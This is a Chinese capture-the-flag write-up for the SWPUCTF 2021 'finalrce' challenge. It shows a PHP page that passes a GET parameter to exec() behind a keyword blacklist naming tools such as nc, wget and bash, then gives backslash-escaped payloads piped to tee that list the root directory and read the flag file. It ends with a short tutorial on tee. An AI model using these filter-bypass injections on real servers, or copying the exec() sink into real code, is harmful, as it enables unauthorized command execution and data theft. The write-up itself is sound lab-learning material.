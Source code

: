 ### NSSCTF -[SWPUCTF 2021 新生赛]finalrce

---

题目如下，看了一下是无回显的形式

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

发现屏蔽了很多

```
http://node4.anna.nssctf.cn:28417/?url=l\s / |tee 1.txt
```



![image-20240909232627700](https://gitee.com/bx33661/image/raw/master/path/image-20240909232627700.png)

```
http://node4.anna.nssctf.cn:28417/?url=ta\c /flllll\aaaaaaggggggg |tee 2.txt
```

![image-20240909232603677](https://gitee.com/bx33661/image/raw/master/path/image-20240909232603677.png)



`tee`

> `tee` 是 Linux 中的一个命令，常用于将命令的输出**同时**发送到多个目标。它的基本功能是**读取标准输入**，然后将内容**写入标准输出**以及**一个或多个文件**。这样，你既可以在终端中查看输出，又能将输出保存到文件中。

基本语法

```bash
command | tee [OPTION]... [FILE]...
```

- `command`：要执行的命令
- `[OPTION]`：可选参数
- `[FILE]...`：输出要保存到的文件

常见选项

- `-a` (`--append`)：追加到文件的末尾，而不是覆盖文件。
- `-i` (`--ignore-interrupts`)：忽略中断信号。

示例

1. **将命令输出同时写入文件和屏幕**

   ```bash
   ls -l | tee output.txt
   ```

   这个命令会列出当前目录的文件，并将输出显示在屏幕上，同时保存到 `output.txt` 文件中。

2. **追加模式**

   ```bash
   ls -l | tee -a output.txt
   ```

   这会将 `ls -l` 的输出追加到 `output.txt`，而不会覆盖之前的内容。

3. **在管道中使用 tee**

   ```bash
   cat file.txt | tee output.txt | grep "pattern"
   ```

   这会将 `file.txt` 的内容输出到 `output.txt`，并继续将内容通过管道传递给 `grep` 命令进行匹配。

总结

`tee` 命令非常适合在不丢失输出内容的情况下，将数据保存到文件中。它在日志记录、调试、或处理复杂的管道时非常有用。